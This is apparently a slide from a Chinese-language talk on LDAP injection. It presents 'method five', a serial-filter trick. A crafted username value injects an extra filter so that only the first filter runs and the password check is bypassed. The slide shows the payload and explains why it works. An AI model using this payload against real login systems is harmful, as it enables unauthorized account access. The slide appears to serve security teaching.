

五种注入方式
方法五 ： 串行过滤器
username  :  ch25)(uid=ch25)) (&(1=0
password   :  anyword
payload      :  (&(uid=ch25)(uid=ch25)) (&(1=0)(userPassword=anyword))
分析
此方法构造了两个过滤器
在语法校验不严谨的 LDAP 中，只会执行第一个过滤器  (&(uid=ch25)(uid=ch25))
而第二个过滤器 (&(1=0)(userPassword=anyword)) 则不会被执行
另此方法同样需要猜中正确的账号使得永真式成立